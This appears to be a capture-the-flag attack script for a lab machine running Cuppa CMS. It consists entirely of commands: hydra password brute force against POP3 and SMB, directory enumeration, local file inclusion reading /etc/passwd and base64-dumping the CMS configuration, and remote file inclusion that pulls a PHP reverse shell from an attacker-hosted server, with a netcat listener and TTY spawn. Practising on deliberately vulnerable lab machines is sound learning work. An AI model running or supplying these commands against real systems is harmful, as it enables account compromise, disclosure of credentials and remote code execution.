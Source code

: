 # POP3 brute force
hydra -l miles -P /usr/share/wordlists/rockyou.txt -f -o found.txt pop3://10.10.15.79
hydra -l miles -P log1.txt -f -o found.txt pop3://10.10.15.79

# SMB brute force
hydra -l milesdyson -P log1.txt smb://10.10.15.79 -V

# Binary email decoding (example)
echo "01100010 01100001 01101100 ..." | perl -lpe '$_=pack"B*",$_'

# CMS directory discovery
gobuster dir -u http://10.10.15.79/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Search known vulnerabilities
searchsploit cuppa

# Local File Inclusion (LFI) via alertConfigField.php
curl "http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd"

# Base64 encode Configuration.php
curl "http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php"

# Serve malicious PHP reverse shell
python3 -m http.server 8000

# Trigger reverse shell via RFI
curl "http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.140.194:8000/aaa.php"

# Listener for reverse shell
nc -lvnp 12345

# TTY spawn
python3 -c 'import pty; pty.spawn("/bin/bash")'
